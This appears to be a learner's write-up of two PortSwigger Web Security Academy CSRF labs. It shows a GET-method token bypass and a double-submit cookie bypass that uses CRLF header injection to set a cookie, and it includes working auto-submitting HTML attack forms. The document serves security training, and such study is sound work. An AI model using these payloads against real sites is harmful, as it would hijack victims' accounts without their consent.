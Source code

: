 
### Lab: [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

	Description: This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
	To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
	You can log in to your own account using the following credentials: `wiener:peter`

Step 1: Check **csrf token** validate depends  on request method
Because this application's token validate depends on request method, we can attack CSRF with GET method to bypass the validation


Step 2: 
**Code to input on exploit server**
```
<form action="https://0a72001903f3cfa7c1009cc8005a0072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="abcd&#64;testtest">
    <input type="submit" value="submit">
</form>
<script>
        document.forms[0].submit();
</script>
```

### Lab: [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

	Description: This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
	To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address. You can log in to your own account using the following credentials: `wiener:peter`

Step 1: Get an overview of what the lab has to offer
We have a vulnerabitlity![](../../Img_note/Pasted%20image%2020221214043047.png) web application, an exploit server, a credential: '**wiener:peter**'

**Vunlnerability Web Applicataion**:
- Page **My account** to login/ if already logged, we can update email
- Page **Home**, can view blog and search blog
![](../../Img_note/Pasted%20image%2020221214043047.png)

**Exploit Server**
- Create a response, we will use this to attack **Cross-site request forgery**, we will put the payload in section body
![](../../Img_note/Pasted%20image%2020221214043150.png)

Step 2: Check the csrf token 
Login with `wiener:peter` and update an random email
When update email, the browser will sent this request to server. I sent this request to **Burp Repeater**
![](../../Img_note/Pasted%20image%2020221214050038.png)

I try to check the csrf token and observer if we change csrf token at the atributte **Cookies** and the parameter, we won't have to accept notification "Invalid CSRF token"
![](../../Img_note/Pasted%20image%2020221214050512.png)

But if we change only one value, we will get message "Invalid CSRF token"
=> parameter `csrf` is being validated by comparing with the `csrf` cookies. If cookis and csrf token had the same valuem, attacker didn't need a valid csrf token or cookie to implement the CSRF attack 
I observed the `Search` function on Home page, and see the application set value of **LastSearchTeam** is my search term => Don't have CSRF protection => Create malicious link with this request 

>https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abchehe

The csrf at the Cookie will be set to abchehe

![](../../Img_note/Pasted%20image%2020221214052335.png)

Step 3: Create the payload
We will use POST method to get responses from malicious link to browser. After that we put malicious link to tag **img**
- add ==SameSite=None== on the malicious link, if **SameSite=Strict**, the browser will not include the cookie in any requests that originate from another site. [More](https://portswigger.net/web-security/csrf/samesite-cookies)
```
<html>
  <body>
    <form action="https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="abchehe" />
      <input type="hidden" name="email" value="abcd&#64;testtest" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abchehe%3b%20SameSite=None" onerror="document.forms[0].submit();">
  </body>
</html>
```
Input the payload to section body
![](../../Img_note/Pasted%20image%2020221214044322.png)
Click **Store** to save and click **View exploit** to see the result: the email has been changed to **abcd@testtest**
![](../../Img_note/Pasted%20image%2020221214044236.png)
![](../../Img_note/Pasted%20image%2020221214045543.png)